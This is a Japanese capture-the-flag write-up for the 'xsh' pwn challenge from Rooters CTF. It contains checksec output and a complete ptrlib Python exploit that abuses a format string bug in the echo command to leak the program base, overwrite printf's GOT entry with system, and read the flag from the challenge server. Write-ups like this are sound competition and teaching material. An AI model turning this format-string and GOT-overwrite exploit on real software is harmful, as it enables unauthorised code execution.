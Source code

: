 # [pwn 464pts] xsh - Rooters CTF
64ビットでRELRO以外有効です。
```
$ checksec -f xsh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   83 Symbols     Yes      0               6       xsh
```
lsやechoなど複数のコマンドのみ実行できるというInterKosenCTF 2019で出したbullshみたいな感じです。echoコマンドにFSBがあるので、proc baseをリークしてprintfをsystemに書き換えれば終わりです。
```python
from ptrlib import *

elf = ELF("./xsh")
#sock = Process("./xsh")
sock = Socket("35.192.206.226", 5555)

# leak proc base
"""
sock.sendlineafter("$", "echo %175$p")
libc_base = int(sock.recvline(), 16)
logger.info("libc base = " + hex(libc_base))
"""
sock.sendlineafter("$", "echo %1$p")
proc_base = int(sock.recvline(), 16) - 0x23ae
logger.info("proc base = " + hex(proc_base))

# printf to system
writes = {
    proc_base + elf.got("printf"): proc_base + 0x1090
}
payload = fsb(
    written = 3,
    writes = writes,
    pos = 25,
    bs = 1,
    bits = 32
)
sock.sendlineafter("$", b"echo    " + payload)

sock.sendline("echo cat /home/vuln/flag.txt")

sock.interactive()
```

# 感想
簡単ですね。
